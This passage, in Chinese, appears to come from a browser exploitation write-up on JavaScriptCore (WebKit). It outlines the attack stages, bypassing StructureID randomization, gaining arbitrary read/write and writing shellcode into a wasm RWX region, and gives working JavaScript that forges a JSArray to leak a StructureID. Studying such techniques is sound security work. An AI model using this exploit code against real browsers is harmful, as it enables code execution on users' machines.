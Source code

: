 后面的操作就比较常规了：

（1）绕过 StructureID 随机化

（2）构造任意地址读写

（3）查找 wasm rwx 区域，写入 shellcode，完成利用

### 绕过 StructureID 随机化

当加载 JSArray 的元素时，解释器中有一个代码路径，它永远不会访问 StructureID:

```
static ALWAYS_INLINE JSValue getByVal(VM& vm, JSValue baseValue, JSValue subscript)
{
    ...;
    if (subscript.isUInt32()) {
        uint32_t i = subscript.asUInt32();
        if (baseValue.isObject()) {
            JSObject* object = asObject(baseValue);
            if (object->canGetIndexQuickly(i))
                return object->getIndexQuickly(i); // 【1】


```

getIndexQuickly 直接从 butterfly 加载元素，而 canGetIndexQuickly 只查看 JSCell 头部中的索引类型和 butterfly 中的 length：

```
bool canGetIndexQuickly(unsigned i) const {
    const Butterfly* butterfly = this->butterfly();
    switch (indexingType()) {
    ...;
    case ALL_CONTIGUOUS_INDEXING_TYPES:
        return i < butterfly->vectorLength() && butterfly->contiguous().at(this, i);
}


```

我们可以伪造一个 JSArray 对象，填充无效的 StructureID 等头部字段（因为 getByVal 路径上不验证，所以不会报错），然后将 butterfly 填充为要泄露的目标对象地址，就可以将目标对象的结构当成数据输出。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182655-b6348ea8-469b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182655-b6348ea8-469b-1.png)

泄露 StructureID 的代码如下：

```
// leak entropy by getByVal
function LeakStructureID(obj)
{
    let container = {
        cellHeader: i2obj(0x0108230700000000), // 伪造的JSArray头部，包括StructureID等字段
        butterfly: obj
    };

    let fakeObjAddr = AddrOf(container) + 0x10;
    let fakeObj = FakeObj(fakeObjAddr);
    f64[0] = fakeObj[0];// 访问元素会调用getByVal

    //此时fakeObj[0]为Legitimate JSArray的JSCell，fakeObj[1]为Legitimate JSArray的butterfly
    // repair the fakeObj's jscell
    let structureID = u32[0];
    u32[1] = 0x01082307 - 0x20000;
    container.cellHeader = f64[0];

    return structureID;
}
```
